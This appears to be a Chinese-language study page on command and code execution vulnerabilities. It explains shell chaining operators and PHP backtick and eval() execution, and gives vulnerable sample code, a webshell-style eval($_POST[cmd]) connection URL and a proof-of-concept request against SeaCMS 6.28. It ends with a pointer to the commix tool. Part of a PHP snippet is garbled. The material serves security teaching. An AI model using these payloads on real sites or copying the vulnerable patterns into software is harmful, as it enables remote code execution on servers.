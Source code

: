 linux下的ping命令默认不停
-c 参数限制ping的次数


启动apache服务：service apache2 start
查看apache状态：service apache2status


站点根目录
/var/www/html/


在Linux系统下的shell命令中，有以下一些截断拼接符。



`;`前面的执行完执行后面的
`|`是管道符，显示后面的执行结果
`||`当前面的执行出错时执行后面的，不出错不执行后面

其中&无论前边语句真假都会执行
&&只有前边语句为真，才会执行后边语句。


PHP下命令执行补充
在PHP中，除了函数可以执行系统命令。反引号也可以作为系统命令执行来使用。
```
<?php echo"<pre>"; if(isset($_GET["cmd"])){
$cmd=$_GET["cmd"]; echo$cmd'; echo "</pre>";
?>
```

### 代码执行漏洞
#### eval()
PHP eval函数介绍
eval()函数把**字符串**按照PHP代码来计算。
该字符串必须是**合法的PHP代码**，且**必须以分号结尾**。
如果没有在代码字符串中调用return 语句，则返回NULL。如果代码中存在解析错误，则eval（）函数返回false。

示例代码
```
<?php
echo eval($_GET['do'].";");
?>
```
菜刀连接：`http://localhost/sec/test/test.php?do=eval($_POST[cmd])`

命令执行漏洞案例演示
海洋cms6.28
利用菜刀连接命令执行的位置。（也被称为代码执行）
POC:`/search.php?searchtype=5&tid=&area=eval($_POST[cmd])`



### commix工具

commix工具介绍
Commix是一个使用Python开发的漏洞测试工具，这个工具是为了方便的检测一个请求是否存在命令注入漏洞，并且对其进行测试，在其作者发布的最新版本中支持直接直接导入burp的历史记录进行检测，大大提高了易用性。

项目地址：https://github.com/stasinopoulos/commix


